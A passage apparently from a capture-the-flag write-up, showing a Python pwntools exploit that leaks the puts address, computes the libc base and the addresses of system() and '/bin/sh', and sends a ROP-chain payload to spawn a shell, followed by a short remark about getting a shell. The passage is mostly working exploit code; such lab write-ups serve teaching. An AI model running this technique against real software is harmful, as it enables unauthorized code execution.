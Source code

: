 ```python

p.sendlineafter(b"Enter your input: ", payload)

# Receive the leak
p.recvline()            # Eat the "Enter your input:" line
leaked_puts = p.recvline().strip().ljust(8, b"\x00")
leaked_puts_addr = u64(leaked_puts)

log.success(f"Leaked puts@GLIBC address: {hex(leaked_puts_addr)}")

# --- Calculate libc base ---
libc_base = leaked_puts_addr - libc.sym['puts']
system_addr = libc_base + libc.sym['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh'))

log.success(f"Calculated libc base: {hex(libc_base)}")
log.success(f"system() address: {hex(system_addr)}")
log.success(f"'/bin/sh' string address: {hex(binsh_addr)}")

# --- Stage 2: Get shell (fixed) ---
payload2 = b"A" * 72
payload2 += p64(ret)              # align
payload2 += p64(pop_rdi_ret)       # pop /bin/sh address
payload2 += p64(binsh_addr)
payload2 += p64(ret)              # align again
payload2 += p64(system_addr)

p.sendlineafter(b"Enter your input: ", payload2)

# Enjoy shell
p.interactive()
```

As we run the exploit script and run whoami, we get a different user in the shell. Means we already success to get into the shell !!! Now its just the time to find the flag.
